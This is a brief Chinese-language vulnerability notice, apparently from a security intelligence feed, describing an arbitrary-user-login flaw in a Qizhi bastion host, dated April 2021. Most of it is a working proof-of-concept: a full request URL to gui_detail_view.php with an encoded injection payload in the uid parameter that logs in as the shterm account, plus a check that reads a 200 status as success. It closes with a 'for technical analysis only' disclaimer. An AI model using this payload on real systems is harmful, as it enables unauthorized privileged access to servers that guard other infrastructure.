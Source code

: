 漏洞名称:齐治堡垒机某版本任意用户登录  
涉及厂商:齐治  
漏洞等级:高危  
是否公开:公开  
是否有POC:有  
首次发现时间:2021年4月9日  
情报来源:互联网  
关键路径：  
HTTP：//x.x.x.x/audit/gui\_detail\_view.php?token=1&amp;id=%5C&amp;uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&amp;login=shterm  
状态码返回200，存在漏洞；“错误ID”提示，不存在漏洞。

以上内容仅供技术分析，请勿用于攻击!